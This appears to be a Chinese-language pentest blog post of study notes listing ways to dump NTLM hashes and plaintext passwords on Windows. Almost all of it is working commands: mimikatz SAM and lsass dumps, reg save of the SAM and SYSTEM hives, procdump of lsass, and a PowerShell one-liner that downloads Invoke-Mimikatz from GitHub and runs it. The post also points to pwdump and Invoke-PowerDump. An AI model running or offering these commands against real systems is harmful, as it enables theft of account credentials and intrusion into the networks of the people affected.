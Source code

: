 ```yaml
---
draft: false
isCJKLanguage: true
date: 2020-12-08
lastmod: 2020-12-08
title: "获取 NTLM Hash"
description: 我的个人博客，主要用于记录自己的一些渗透测试、编程等学习笔记之类的东西。
categories: 
  - Pentest
tags:
  - intranet
---
```


### 0x01 通过 sam 文件获取
* 通过 mimikatz 转储 sam 文件得到 hash(cmd 需要管理员权限)
    ```
    mimikatz.exe log "privilege::debug" "token::elevate" "lsadump::sam" exit
    ```

* 通过 reg save 导出 sam 文件(2003 之后可以使用)(导 hiv 文件 cmd 需要管理员权限)
    ```
    reg save HKLM\SAM sam.hive
    reg save HKLM\SYSTEM system.hive
    mimikatz.exe "lsadump::sam /sam:sam.hive /system:system.hive" exit
    ```

* 直接通过 Invoke-NinjaCopy 获取 sam 文件(cmd 需要管理员权限)
    * 下载 [NinjaCopy](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1) 这个工具拷贝 sam 文件
        ```
        powershell -exec bypass Import-Module .\Invoke-NinjaCopy.ps1; Invoke-NinjaCopy -Path C:\Windows\System32\config\SAM -LocalDestination .\sam.hive; Invoke-NinjaCopy -Path C:\Windows\System32\config\SYSTEM -LocalDestination .\system.hive
        ```
    * 然后执行 mimikatz.exe "lsadump::sam /sam:sam.hive /system:system.hive" exit 得到 hash

### 0x02 通过 dmp 文件获取(可获取到明文)
* 通过 lsass 进程的 dmp 文件(procdump64 cmd 需要管理员权限)
    * 利用 [procdump](https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump) 得到 dmp 文件: procdump64.exe -accepteula -ma lsass.exe lsass.dmp
    * 然后执行 mimikatz.exe log "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit 得到密码

* 通过任务管理器 lsass 进程导出 dmp 文件(显示所有进程时需要管理员权限)
    * 先通过进程转储得到 dmp 文件  
    ![60](/img/post/Xnip2022-10-11_11-04-57.png)
    * 然后执行 mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit 得到密码  

### 0x03 通过内存获取(可获取到明文)
* 通过 lsass 进程内存提权(cmd 需要管理员权限)
    ```
    mimikatz.exe log "privilege::debug" "sekurlsa::logonpasswords full" exit
    ```

* powershell 加载 mimikatz 抓取(cmd 需要管理员权限)
    ```
    powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
    ```
    ```
    或者先下载然后执行
    powershell Import-Module .\Invoke-Mimikatz.ps1; Invoke-Mimikatz -Command '"privilege::debug" "log" "sekurlsa::logonPasswords full"'
    ```

### 0x04 其他方式获取
* 通过 pwdump 获取(cmd 需要管理员权限)
    * 下载 [pwdump](https://www.openwall.com/passwords/windows-pwdump)
    * 下载后执行

* 使用 Invoke-PowerDump 获取(cmd 需要管理员权限)
    * 下载 [Invoke-PowerDump](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1)
    * 下载后执行
        ```
        powershell Import-Module .\Invoke-PowerDump.ps1; Invoke-PowerDump
        ```
